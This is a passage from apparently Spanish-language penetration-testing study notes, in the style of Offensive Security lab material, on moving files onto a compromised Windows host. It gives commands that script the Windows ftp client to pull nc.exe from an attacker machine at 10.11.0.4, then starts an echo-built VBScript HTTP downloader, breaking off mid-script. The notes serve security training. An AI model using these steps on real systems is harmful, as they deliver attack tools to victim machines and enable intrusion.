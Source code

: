 Vemos que especialmente intersante es la opción '-s' que acepta comandos escritos sobre un fichero. Esto nos podría servir para utilizar el cliente ftp sin necesidad de proporcionar input al servicio ya que podríamos escribir en un fichero comandos FTP y el servicio con la opción '-s' los procesaría automáticamente.

De esta forma, podemos proceder de la siguiente manera: 

- Primero, en nuestra máquina atacante generamos un servidor FTP.
- Colocamos en el fichero raíz del servicio una copia del binario 'nc-exe':

```
kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/
kali@kali:~$ ls /ftphome/
nc.exe
```

- Reiniciamos el servicio FTP para asegurarnos que funciona correctamente:

```
sudo systemctl restart pure-ftpd
```

- A continuación construimos un fichero de texto con comandos FTP para ser ejecutados.

```
C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt
```

Estos comandos se logean en nuestro servidor FTP local como el usuario Offsec y descargan el binario 'nc.exe'.

- Por último, iniciamos el proceso a través del siguiente comando ftp en la máquina víctima:

```
C:\Users\offsec> ftp -v -n -s:ftp.txt
```

Así conseguimos que se ejecuten nuestros comandos y obtenemos el binario de netcat sin necesidad de tener una shell interactiva.

<br />

#### 2.2. Windows Downloads Using Scripting Languages.

Podemos aprovecharnos de ciertos motores de scripting para descargar ficheros en un host de Windows como por ejemplo VBScript o PowerShell. Así por ejemplo podemos construir con el comando no interactivo *echo* un HTTP Downloader de VBScript:

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
```